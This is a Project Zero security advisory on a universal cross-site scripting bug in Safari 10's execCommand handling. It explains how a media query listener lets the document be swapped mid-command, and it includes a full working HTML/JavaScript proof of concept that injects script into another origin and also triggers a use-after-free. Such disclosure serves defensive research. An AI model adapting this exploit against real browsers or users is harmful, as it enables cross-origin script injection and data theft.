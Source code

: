 # UXSS via Editor::Command::execute

### Reported by <mailto:lokihardt@google.com>, Feb 16 2017
Here's a snippet of Editor::Command::execute used to handle |document.execCommand|.

```cpp
bool Editor::Command::execute(const String& parameter, Event* triggeringEvent) const
{
    if (!isEnabled(triggeringEvent)) {
        // Let certain commands be executed when performed explicitly even if they are disabled.
        if (!allowExecutionWhenDisabled())
            return false;
    }
    m_frame->document()->updateLayoutIgnorePendingStylesheets();
    return m_command->execute(*m_frame, triggeringEvent, m_source, parameter);
}
```

This method is invoked under an |EventQueueScope|. But |updateLayoutIgnorePendingStylesheets| invokes |MediaQueryMatcher::styleResolverChanged| that directly calls |handleEvent| not affected by |EventQueueScope|. So it may end up to fire javascript handlers(|listener| in PoC). If we replace the document in that handler, |m_command| will be executed on the new document's focused element. We can use # in URL to give a focus.

Note 1: The PoC also trigger a UAF. So I recommend to test it on a release build. [ASAN log]('./asan.log.txt')
Note 2: If the PoC doesn't work, adjust sleep().

Tested on Safari 10.0.3(12602.4.8).

PoC:
```html
<html>

<body>
  Click Anywhere.
  <script>
    function sleep(ms) {
      let start = new Date();
      while (new Date() - start < ms) {

      }
    }

    window.onclick = () => {
      window.onclick = null;

      document.designMode = 'on';
      document.execCommand('selectAll');

      let f = document.body.appendChild(document.createElement('iframe'));
      let media_list = f.contentWindow.matchMedia("(max-width: 100px)");

      function listener() {
        let a = document.createElement('a');
        a.href = 'https://bugs.webkit.org/#quicksearch_top';
        a.click();

        sleep(1000);

        window.showModalDialog(URL.createObjectURL(new Blob([
          `
<script>
let it = setInterval(() => {
try {
    opener.document.x;
} catch (e) {
    clearInterval(it);

    setTimeout(() => {
        window.close();
    }, 2000);
}
}, 100);
</scrip` + 't>'
        ], {
          type: 'text/html'
        })));
      }

      media_list.addListener(listener);
      document.execCommand('insertHTML', false, 'aaa<a-a></a-a><iframe src="javascript:alert(parent.location)"></iframe>');
    };
  </script>
</body>

</html>
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1133
